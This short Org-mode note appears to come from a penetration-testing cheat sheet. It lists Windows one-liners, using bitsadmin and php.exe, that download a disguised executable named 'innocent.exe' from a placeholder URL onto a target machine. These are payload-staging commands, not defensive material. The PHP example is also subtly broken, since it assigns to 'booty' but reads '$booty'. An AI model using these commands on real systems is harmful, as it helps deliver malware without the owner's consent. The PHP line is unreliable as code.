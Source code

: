 * bitsadmin
#+BEGIN_EXAMPLE
bitsadmin /transfer job_name /download /priority foreground http://your.url.here/innocent.exe
  C:\some\writeable\path\for\your\innocent.exe
#+END_EXAMPLE

** bitsadmin used to be quite common on windows systems, but less so after 7, i think.

* php
#+BEGIN_EXAMPLE
C:\\xampplite\\php\\php.exe -r "
        booty = file_get_contents(\"http://your.url.here/innocent.exe\"); 
        file_put_contents(\"innocent.exe\", $booty);
"
#+END_EXAMPLE

** path to php.exe can vary, naturally, and isn't on all systems
